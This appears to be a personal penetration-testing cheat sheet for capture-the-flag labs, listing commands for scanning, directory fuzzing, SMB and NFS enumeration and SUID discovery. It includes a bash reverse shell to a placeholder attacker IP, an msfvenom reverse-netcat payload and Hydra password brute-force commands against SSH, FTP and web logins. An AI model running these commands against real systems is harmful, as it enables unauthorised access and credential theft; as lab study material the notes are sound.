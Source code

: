 
# CLI
## rdp: 
`xfreerdp /u:{username} /p:{password} /v:{ip} /dynamic-resolution`
## netcat:
`nc -lvnp <PORT>`
- `-l`: Listen mode.
    
- `-v`: Verbose output (optional but recommended).
    
- `-n`: Disable DNS resolution (faster).
    
- `-p <PORT>`: Specify the port to listen on (e.g., `4444`).

Then
`bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'`
// Research more ways to connect
## Gobuster:
- Directories
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/fuzz_php_special.txt -t 100 --timeout 60s
```
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/robots.txt
```
- Sub Domains
`gobuster dns -d ip -w /home/Dragon/Code/wordlists/subdomain.txt`


## Rustscan:
`rustscan -a ip -r 1-65535 --ulimit 5000 --timeout 1500`

with nmap
`rustscan -a ip -- -sV -sC`

Target a specific port:
`rustscan -a ip -p port -- -A -sC`

# nmap
`nmap -p- -T4 ip
`
## tcpdump
- listen {This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.}
`sudo tcpdump ip proto \\icmp -i tun0`

![[Pasted image 20250202160630.png]]

## metasploit
- netcat rev shell
`msfvenom -p cmd/unix/reverse_netcat lhost=10.8.30.74 lport=4444 R`
## Hydra:
`hydra -L /home/Dragon/Code/wordlists/rockyou.txt -p admin ip`

`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt ssh://ip -V -I -t 64` 

`hydra -t 4 -l dale -P home/Dragon/Code/wordlists/rockyou.txt -vV ip ftp`

-t 4                    Number of parallel connections per target  
-l [user]               Points to the user who's account you're trying to compromise  
-P [path to dictionary] Points to the file containing the list of possible passwords  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for                             each attempt
## ffuf
`ffuf -u ip../FUZZ.fileExtension -w /home/Dragon/Code/wordlists/raft-small-words.txt`
- Note: run in full screen

- Post form
`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt lookup.thm http-post-form "/login:username=^USER^&password=^PASS^F:wrong password" -V -I -t 64`


## Hashcat
- cd in location of pswd list
`hashcat --stdout -r /home/Dragon/Code/wordlists/hashcat_rules/best64.rule password_list.txt > mutated_passwords.txt`

## Enum4linux

`enum4linux -h` : Manual

```
enum4linux -U -o 192.168.1.200
```
**TAG**            **FUNCTION**  
- U            get userlist  
- M            get machine list  
- N             get namelist dump (different from -U and-M)  
- S             get sharelist  
- P             get password policy information  
- G             get group and member list
- a             all of the above (full basic enumeration)

### SMB client 
`smbclient //[IP]/[SHARE]`

Followed by the tags:

-U [name] : to specify the user

-p [port] : to specify the port

more "filename" to cat

## NFS
- get shares
`/usr/sbin/showmount -e ip`
- mount
sudo mount -t nfs ip:share /mnt -nolock
## General:
`find / -name "*flag*" 2>/dev/null`
`find / -perm -u=s -type f 2>/dev/null`
`sudo find / -type d -name 'dirName'`

# Notes:
## ssh with RSA
Use private key
Do: chmod 600 filename
Then: 
	ssh -i  rsaprivefilename user@ip


# Pics
- telnet
![[Pasted image 20250202161214.png]]
